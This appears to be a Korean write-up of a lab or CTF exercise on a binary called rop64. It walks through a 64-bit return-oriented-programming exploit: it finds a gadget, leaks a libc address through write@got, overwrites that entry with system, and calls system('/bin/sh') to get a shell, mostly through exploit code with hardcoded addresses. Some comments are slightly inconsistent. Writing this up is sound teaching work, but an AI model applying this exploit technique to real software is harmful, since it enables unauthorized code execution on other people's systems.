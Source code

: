 <br>

위와 같은 코드가 있고, 편의를 위해 일부러 가젯을 넣어줬다고 한다.

먼저 ```pop rdi; pop rsi; pop rdx; ret``` 코드 가젯이 어디에 있는지, 주소를 찾아야 한다.
: ```objdump -d rop64 | grep "gadget" -A6```

<br>

```python
# write(1, 0x601018, 8)
payload  = "A"*264         # buf padding
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(1)          # fd
payload += p64(0x601018)   # write@got
payload += p64(8)          # 8 
payload += p64(0x400430)   # write_plt 
```

<br>

찾은 코드 가젯을 이용해 write 함수를 호출한 뒤 ```write@got```에 저장되어 있는 값을 출력해서 라이브러리 주소를 알아낸다.

<br>

```python
# read(0, 0x601018, 16)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0)          # fd
payload += p64(0x601018)   # write@got
payload += p64(16)          # 8
payload += p64(0x400440)   # read@plt

# write(0x601020,0,0)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0x601020)   # /bin/sh
payload += p64(0)          # 0
payload += p64(0)          # 0
payload += p64(0x400430)   # write@plt

libc = u64(read(out_r,8)[:8])
base = libc - 0xf72b0
system = base + 0x45390
print hex(libc)

writeline(s, p64(system)+"/bin/sh\x00") # read가 호출될 때 입력해주는 것
```

<br>


이후, 알아낸 라이브러리 주소를 통해 read 함수를 호출하여 ```write@got```에 system 함수를 덮어쓰고 ```/bin/sh```(write@got+4) 문자열을 입력한다. 

최종적으로 write 함수를 호출하면 system 함수가 호출되고,  ```/bin/sh``` 문자열의 주소인 ```0x601020``` (write@got+4) 를 첫 번째 인자로 전달하면 최종적으로 ```system("/bin/sh")```가 되어 셸을 획득할 수 있다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
